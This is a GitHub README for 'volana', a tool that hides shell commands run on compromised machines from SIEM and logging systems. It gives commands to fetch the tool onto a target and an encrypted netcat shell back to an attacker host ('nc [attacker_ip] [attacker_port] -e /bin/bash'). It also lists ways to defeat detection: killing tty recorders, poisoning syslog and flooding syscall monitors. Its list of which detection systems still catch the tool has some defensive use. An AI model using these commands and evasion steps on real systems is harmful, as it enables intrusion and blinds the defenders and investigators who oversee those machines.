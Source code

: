 
<div align="center">
<h3><i>volana<sub> (moon in malagasy)</i></h3>
<img src="https://github.com/ariary/volana/blob/main/img/moon.png">


<p><strong><pre><code>{ <a href="#usage">Use it</a> ; <a href="#hide-from">🌚<sub>(hide from)</sub></a>; <a href="#visible-for">🌞<sub>(detected by)</sub></a> } </code></pre></strong></p>
<h4> Shell command obfuscation to avoid SIEM/detection system </h4>
 <p> During pentest, an important aspect is to <b>be stealth</b>. For this reason you should <b>clear your tracks after your passage</b>. Nevertheless, many infrastructures log command and send  them to a SIEM in a real time making the afterwards cleaning part alone useless.<br><br><code>volana</code> provide a simple way to hide commands executed on compromised machine by providing it self shell runtime (enter your command, volana executes for you). Like this you <b>clear your tracks DURING your passage</b></p>
</div>

## Usage

You need to get an interactive shell. (Find a way to spawn it, you are a hacker, it's your job ! [otherwise](#from-non-interactive-shell)). Then download it on target machine and launch it. that's it, now you can type the command you want to be stealthy executed 
```shell
## Download it from github release
## If you do not have internet access from compromised machine, find another way
curl -lO -L https://github.com/ariary/volana/releases/latest/download/volana

## Execute it
./volana

## You are now under the radar
volana » echo "Hi SIEM team! Do you find me?" > /dev/null 2>&1  #you are allowed to be a bit cocky
volana » [command]
```

Keyword for volana console:
* `ring`: enable ring mode ie each command is launched with plenty others to cover tracks (from solution that monitor system call)
* `exit`: exit volana console

### from non interactive shell

Imagine you have a non interactive shell (webshell or blind rce), you could use `encrypt` and `decrypt` subcommand.
Previously, you need to build `volana` with embedded encryption key.

**On attacker machine**
```shell
## Build volana with encryption key
make build.volana-with-encryption

## Transfer it on TARGET (the unique detectable command)
## [...]

## Encrypt the command you want to stealthy execute
## (Here a nc bindshell to obtain a interactive shell)
volana encr "nc [attacker_ip] [attacker_port] -e /bin/bash"
**encrypted cmd**
```

Copy encrypted command and executed it with your rce **on target machine**
```shell
./volana decr [encrypted_command]
## Now you have a bindshell shell, spawn it to make it interactive and use volana usually to be stealth (.volana)

```

***Why not just hide command with `echo [command] | base64` ?***
And decode on target with `echo [encoded_command] | base64 -d | bash`

Because we want to be protected against system that trigger alert for `base64` use or that seek base64 text in command. Also we want to make investigation difficult and base64 isn't a real brake.

## Detection

Keep in mind that `volana` is not a miracle that will make you totally invisible. It aim is to make intrusion detection and investigation harder.

By detected we mean if we are able to trigger an alert if a certain command has been executed.


### Hide from

Only the `volana` launch command line will be catched

* Detection systems that are based on history command output
* Detection systems that are based on history files
  * `.bash_history`, ".zsh_history" etc ..
* Detection systems that are based on bash debug traps
* Detection systems that are based on sudo built-in logging system
 
### Visible for

* Detection systems that have alert for unknown command (volana one)
* Detection systems that are based on keylogger
  * Easy to avoid: copy/past commands
  * Not a common case
* Detection systems that are based on syslog files (e.g. `/var/log/auth.log`)
  * Only for `sudo` or `su` commands
  * syslog file could be modified and thus be poisoned as you wish (e.g for */var/log/auth.log*:`logger -p auth.info "No hacker is poisoning your syslog solution, don't worry"
* Terminal (tty) recorder (`script`, `screen -L`, [`sexonthebash`](https://github.com/ariary/sexonthebash), `ovh-ttyrec`, etc..)
  * Easy to detect & avoid: `pkill -9 script`
  * Not a common case
  * `screen` is a bit more difficult to avoid, however it does not register input (secret input: `stty -echo` => avoid)
* Detection systems that are based on syscall (eg auditd,LKML/eBPF)
  * Difficult to analyze, could be make unreadable by making several diversion syscalls
* Custom `LD_PRELOAD` injection to make log
  * Not a common case at all

## Bug bounty

Sorry for the clickbait title, but no money will be provided for contibutors. 🐛

 Let me know if you have found:
* a way to detect `volana`
* a way to spy console that don't detect `volana` commands
* a way to avoid a detection system

[Report here](https://github.com/ariary/volana/issues/new/choose)

 
## Credit
* [8 ways to spy on console](https://github.com/annmuor/zn2021_8ways]
* [moonwalk](https://github.com/mufeedvh/moonwalk): similar tool that clear tracks AFTER passage
